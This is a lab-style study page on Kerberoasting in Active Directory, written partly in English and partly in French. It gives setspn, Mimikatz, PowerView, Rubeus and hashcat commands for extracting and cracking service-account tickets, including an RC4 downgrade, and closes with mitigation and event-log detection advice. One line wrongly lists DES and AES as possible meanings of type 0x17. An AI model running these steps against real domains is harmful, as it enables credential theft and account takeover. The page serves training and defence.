





# Kerberoasting - from Windows (+REMEDIATION)

### <mark style="color:red;">Kerberoasting - Semi Manual method</mark>

<mark style="color:green;">**Enumerating SPNs with setspn.exe**</mark>

```cmd-session
C:\htb> setspn.exe -Q */*
```

We will notice many different SPNs returned for the various hosts in the domain. We will focus on `user accounts` and ignore the computer accounts returned by the tool

<mark style="color:green;">**Targeting a Single User**</mark>


```powershell-session
PS C:\htb> Add-Type -AssemblyName System.IdentityModel
PS C:\htb> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```


* The [Add-Type](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.2) cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object
* The `-AssemblyName` parameter allows us to specify an assembly that contains types that we are interested in using
* [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is a namespace that contains different classes for building security token services
* We'll then use the [New-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.2) cmdlet to create an instance of a .NET Framework object
* We'll use the [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session

<mark style="color:green;">**Retrieving All Tickets Using setspn.exe**</mark>


```powershell-session
PS C:\htb> setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```


Now that the tickets are loaded, we can use `Mimikatz` to extract the ticket(s) from `memory`.

### <mark style="color:red;">Extracting Tickets from Memory with Mimikatz</mark>


```cmd-session
Using 'mimikatz.log' for logfile : OK

mimikatz # base64 /out:true
isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz # kerberos::list /export  
```


If we do not specify the `base64 /out:true` command, Mimikatz will extract the tickets and write them to `.kirbi` files. Depending on our position on the network and if we can easily move files to our attack host, this can be easier when we go to crack the tickets. Let's take the base64 blob retrieved above and prepare it for cracking.

Next, we can take the base64 blob and remove new lines and white spaces since the output is column wrapped, and we need it all on one line for the next step.

<mark style="color:green;">**Preparing the Base64 Blob for Cracking**</mark>


```shell-session
mrroboteLiot@htb[/htb]$ echo "<base64 blob>" |  tr -d \\n 
```


We can place the above single line of output into a file and convert it back to a `.kirbi` file using the `base64` utility.

<mark style="color:green;">**Placing the Output into a File as .kirbi**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ cat encoded_file | base64 -d > sqldev.kirbi
```

Next, we can use [this](https://raw.githubusercontent.com/nidem/kerberoast/907bf234745fe907cf85f3fd916d1c14ab9d65c0/kirbi2john.py) version of the `kirbi2john.py` tool to extract the Kerberos ticket from the TGS file.

<mark style="color:green;">**Extracting the Kerberos Ticket using kirbi2john.py**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ python2.7 kirbi2john.py sqldev.kirbi
```

This will create a file called `crack_file`. We then must modify the file a bit to be able to use Hashcat against the hash.

<mark style="color:green;">**Modifiying crack\_file for Hashcat**</mark>


```shell-session
mrroboteLiot@htb[/htb]$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```


Now we can check and confirm that we have a hash that can be fed to Hashcat.

<mark style="color:green;">**Viewing the Prepared Hash**</mark>


```shell-session
mrroboteLiot@htb[/htb]$ cat sqldev_tgs_hashcat 

$krb5tgs$23$*
```


We can then run the ticket through Hashcat again and get the cleartext password `database!`.

<mark style="color:green;">**Cracking the Hash with Hashcat**</mark>


```shell-session
mrroboteLiot@htb[/htb]$ hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 

```


If we decide to skip the base64 output with Mimikatz and type `mimikatz # kerberos::list /export`, the .kirbi file (or files) will be written to disk. In this case, we can download the file(s) and run `kirbi2john.py` against them directly, skipping the base64 decoding step.

***

### <mark style="color:red;">Automated / Tool Based Route</mark>

<mark style="color:green;">**Using PowerView to Extract TGS Tickets**</mark>

```powershell-session
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Get-DomainUser * -spn | select samaccountname
```

From here, we could target a specific user and retrieve the TGS ticket in Hashcat format.

<mark style="color:green;">**Using PowerView to Target a Specific User**</mark>


```powershell-session
PS C:\htb> Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```


Finally, we can export all tickets to a CSV file for offline processing.

<mark style="color:green;">**Exporting All Tickets to a CSV File**</mark>


```powershell-session
PS C:\htb> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```


<mark style="color:green;">**Viewing the Contents of the .CSV File**</mark>


```powershell-session
PS C:\htb> cat .\ilfreight_tgs.csv
```


We can also use [Rubeus](https://github.com/GhostPack/Rubeus) from GhostPack to perform Kerberoasting even faster and easier. Rubeus provides us with a variety of options for performing Kerberoasting.

***

### <mark style="color:red;">**Using Rubeus**</mark>


```powershell-session
PS C:\htb> .\Rubeus.exe
```


* Performing Kerberoasting and outputting hashes to a file
* Using alternate credentials
* Performing Kerberoasting combined with a pass-the-ticket attack
* Performing "opsec" Kerberoasting to filter out AES-enabled accounts
* Requesting tickets for accounts passwords set between a specific date range
* Placing a limit on the number of tickets requested
* Performing AES Kerberoasting

<mark style="color:green;">**Viewing Rubeus's Capabilities**</mark>

We can first use Rubeus to gather some stats. From the output below, we can see that there are nine Kerberoastable users, seven of which support RC4 encryption for ticket requests and two of which support AES 128/256. More on encryption types later. We also see that all nine accounts had their password set this year (2022 at the time of writing). If we saw any SPN accounts with their passwords set 5 or more years ago, they could be promising targets as they could have a weak password that was set and never changed when the organization was less mature.

<mark style="color:green;">**Using the /stats Flag**</mark>


```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /stats
```


Let's use Rubeus to request tickets for accounts with the `admincount` attribute set to `1`. These would likely be high-value targets and worth our initial focus for offline cracking efforts with Hashcat. Be sure to specify the `/nowrap` flag so that the hash can be more easily copied down for offline cracking using Hashcat. Per the documentation, the ""/nowrap" flag prevents any base64 ticket blobs from being column wrapped for any function"; therefore, we won't have to worry about trimming white space or newlines before cracking with Hashcat.

<mark style="color:green;">**Using the /nowrap Flag**</mark>


```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```


***

### <mark style="color:red;">A Note on Encryption Types</mark>


The below examples on encryption types are not reproducible in the module lab because the target Domain Controller is running Windows Server 2019. More on that later in the section.


Kerberoasting tools typically request **`RC4 encryption`** when performing the attack and initiating TGS-REQ requests. This is because RC4 is [weaker](https://www.stigviewer.com/stig/windows_10/2017-04-28/finding/V-63795) and easier to crack offline using tools such as Hashcat than other encryption algorithms such as **AES-128 and AES-256**. When performing Kerberoasting in most environments, we will retrieve hashes that begin with **`$krb5tgs$23$*`**, an RC4 (type 23) encrypted ticket. Sometimes we will receive an AES-256 (type 18) encrypted hash or hash that begins with **`$krb5tgs$18$*`**. While it is possible to crack AES-128 (type 17) and AES-256 (type 18) TGS tickets using [Hashcat](https://github.com/hashcat/hashcat/pull/1955), it will typically be significantly more time consuming than cracking an RC4 (type 23) encrypted ticket, but still possible especially if a weak password is chosen. Let's walk through an example.

Let's start by creating an SPN account named `testspn` and using Rubeus to Kerberoast this specific user to test this out. As we can see, we received the TGS ticket RC4 (type 23) encrypted.


```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /user:testspn /nowrap
```


Checking with PowerView, we can see that the `msDS-SupportedEncryptionTypes` attribute is set to `0`. The chart [here](https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/decrypting-the-selection-of-supported-kerberos-encryption-types/ba-p/1628797) tells us that a decimal value of `0` means that a specific encryption type is not defined and set to the default of `RC4_HMAC_MD5`.


```powershell-session
PS C:\htb> Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes

serviceprincipalname                   msds-supportedencryptiontypes samaccountname
--------------------                   ----------------------------- --------------
testspn/kerberoast.inlanefreight.local                            0 testspn
```


Next, let's crack this ticket using Hashcat and note how long it took. The account is set with a weak password found in the `rockyou.txt` wordlist for our purposes. Running this through Hashcat, we see that it took four seconds to crack on a CPU, and therefore it would crack almost instantly on a powerful GPU cracking rig and probably even on a single GPU.

<mark style="color:green;">**Cracking the Ticket with Hashcat & rockyou.txt**</mark>


```shell-session
mrroboteLiot@htb[/htb]$ hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt 
```


Let's assume that our client has set SPN accounts to support AES 128/256 encryption.

<figure><figcaption></figcaption></figure>

If we check this with PowerView, we'll see that the `msDS-SupportedEncryptionTypes attribute` is set to `24`, meaning that AES 128/256 encryption types are the only ones supported.

<mark style="color:green;">**Checking Supported Encryption Types**</mark>


```powershell-session
PS C:\htb> Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes

serviceprincipalname                   msds-supportedencryptiontypes samaccountname
--------------------                   ----------------------------- --------------
testspn/kerberoast.inlanefreight.local                            24 testspn
```


Requesting a new ticket with Rubeus will show us that the account name is using AES-256 (type 18) encryption.

<mark style="color:green;">**Requesting a New Ticket**</mark>


```powershell-session
PS C:\htb>  .\Rubeus.exe kerberoast /user:testspn /nowrap
----------------------
[*] Supported ETypes       : AES128_CTS_HMAC_SHA1_96, AES256_CTS_HMAC_SHA1_96
[*] Hash                   : $krb5tgs$18$testspn$INLANEFREIGHT.LOCAL$*testspn/kerberoast.inlanefreight.local@INLANEFREIGHT.LOCAL*$3D53
```


To run this through Hashcat, we need to use hash mode `19700`, which is `Kerberos 5, etype 18, TGS-REP (AES256-CTS-HMAC-SHA1-96)` per the handy Hashcat [example\_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) table. We run the AES hash as follows and check the status, which shows it should take over 23 minutes to run through the entire rockyou.txt wordlist by typing `s` to see the status of the cracking job.

<mark style="color:green;">**Running Hashcat & Checking the Status of the Cracking Job**</mark>


```shell-session
mrroboteLiot@htb[/htb]$ hashcat -m 19700 aes_to_crack /usr/share/wordlists/rockyou.txt 
```


When the hash finally cracks, we see that it took 4 minutes 36 seconds for a relatively simple password on a CPU. This would be greatly magnified with a stronger/longer password.

<mark style="color:green;">**Viewing the Length of Time it Took to Crack**</mark>

```shell-session
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 18, TGS-REP
Hash.Target......: $krb5tgs$18$testspn$INLANEFREIGHT.LOCAL$8939f8c5b97...413d53
Time.Started.....: Sun Feb 27 16:07:50 2022 (4 mins, 36 secs)
Time.Estimated...: Sun Feb 27 16:12:26 2022 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    10114 H/s (9.25ms) @ Accel:1024 Loops:64 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 2789376/14344385 (19.45%)
Rejected.........: 0/2789376 (0.00%)
Restore.Point....: 2783232/14344385 (19.40%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4032-4095
Candidates.#1....: wenses28 -> wejustare
```

We can use Rubeus with the `/tgtdeleg` flag to specify that we want only RC4 encryption when requesting a new service ticket. The tool does this by specifying RC4 encryption as the only algorithm we support in the body of the TGS request. This may be a failsafe built-in to Active Directory for backward compatibility. By using this flag, we can request an RC4 (type 23) encrypted ticket that can be cracked much faster.

<mark style="color:green;">**Using the /tgtdeleg Flag**</mark>

<figure><figcaption></figcaption></figure>

Dans l'exemple donné, l'outil, lorsqu'il utilise le flag `/tgtdeleg`, demande un ticket RC4 bien que les types de chiffrement supportés soient AES 128/256. Ce cas montre l'importance de l'énumération détaillée lors des attaques comme le Kerberoasting. Ici, l'attaquant a pu rétrograder de l'AES à RC4, réduisant ainsi le temps de craquage de plus de 4 minutes et 30 secondes. Dans un engagement réel, avec une machine de craquage de mots de passe puissante, cette rétrogradation pourrait réduire un temps de craquage de plusieurs jours à quelques heures, ce qui pourrait être décisif.

Il est important de noter que cette technique ne fonctionne pas contre un contrôleur de domaine Windows Server 2019, qui renverra toujours un ticket de service chiffré avec le type de chiffrement le plus élevé supporté. En revanche, sur un contrôleur de domaine Windows Server 2016 ou antérieur, l'activation du chiffrement AES permettrait à un attaquant de demander un ticket de service chiffré en RC4. Par contre, dans Windows Server 2019, l'activation de l'AES sur un compte SPN génère un ticket AES-256 (type 18), beaucoup plus difficile à craquer.


Il est possible de modifier les types de chiffrement utilisés par Kerberos. Cela peut être réalisé en ouvrant la stratégie de groupe, en éditant la stratégie de domaine par défaut, et en sélectionnant :\
**Configuration ordinateur > Stratégies > Paramètres Windows > Paramètres de sécurité > Stratégies locales > Options de sécurité**,\
puis en double-cliquant sur **Sécurité réseau : Configurer les types de chiffrement autorisés pour Kerberos** et en choisissant le type de chiffrement souhaité pour Kerberos.

Supprimer tous les autres types de chiffrement à l'exception de **RC4\_HMAC\_MD5** permettrait, en 2019, de réaliser l'exemple de rétrogradation mentionné ci-dessus. En revanche, supprimer la prise en charge de **AES** introduirait une faille de sécurité dans Active Directory et ne devrait probablement jamais être fait. De plus, supprimer la prise en charge de **RC4**, quel que soit la version de Windows Server du contrôleur de domaine ou le niveau fonctionnel du domaine, pourrait avoir des impacts opérationnels et doit être rigoureusement testé avant toute mise en œuvre.


<figure><figcaption></figcaption></figure>

***

### <mark style="color:red;">Mitigation & Detection</mark>

Une mesure d'atténuation importante pour les comptes de service non gérés consiste à définir un mot de passe ou une phrase de passe long et complexe qui n'apparaît dans aucune liste de mots et qui prendrait bien trop de temps à être craqué. Cependant, il est recommandé d'utiliser des comptes de service gérés (MSA) ainsi que des comptes de service gérés de groupe (gMSA), qui utilisent des mots de passe très complexes et se renouvellent automatiquement à intervalles réguliers (comme les comptes machines) ou des comptes configurés avec LAPS.

Le kerberoasting sollicite des tickets TGS Kerberos avec un chiffrement RC4, ce qui ne devrait pas constituer la majorité de l'activité Kerberos au sein d'un domaine. Lorsque le kerberoasting se produit dans l'environnement, on observe un nombre anormal de requêtes et de réponses TGS-REQ et TGS-REP, indiquant l'utilisation d'outils automatisés de kerberoasting. Les contrôleurs de domaine peuvent être configurés pour enregistrer les demandes de tickets TGS Kerberos en sélectionnant l'option « Audit Kerberos Service Ticket Operations » dans la stratégie de groupe.

<figure><figcaption></figcaption></figure>

En procédant ainsi, cela va générer deux identifiants d'événements distincts :

* **4769** : Un ticket de service Kerberos a été demandé.
* **4770** : Un ticket de service Kerberos a été renouvelé.

Dans un environnement donné, 10 à 20 demandes de tickets TGS pour un compte peuvent être considérées comme normales. Cependant, un grand nombre d'événements 4769 provenant d'un même compte sur une courte période peut indiquer une attaque.

Ci-dessous, nous voyons un exemple d'une attaque de Kerberoasting enregistrée. Nous observons de nombreux événements 4769 qui se succèdent, ce qui semble être un comportement anormal. En cliquant sur l'un d'eux, on peut constater qu'un ticket de service Kerberos a été demandé par l'utilisateur **htb-student** (l'attaquant) pour le compte **sqldev** (la cible). On peut également voir que le type de chiffrement du ticket est **0x17**, qui est la valeur hexadécimale pour 23 (ce qui peut correspondre à DES\_CBC\_CRC, DES\_CBC\_MD5, RC4, ou AES 256). Cela signifie que le ticket demandé était chiffré en **RC4**. Ainsi, si le mot de passe du compte **sqldev** était faible, il y a de fortes chances que l'attaquant puisse le craquer et prendre le contrôle du compte.

<figure><figcaption></figcaption></figure>


This excellent [post](https://adsecurity.org/?p=3458) by Sean Metcalf highlights some mitigation and detection strategies for Kerberoasting.

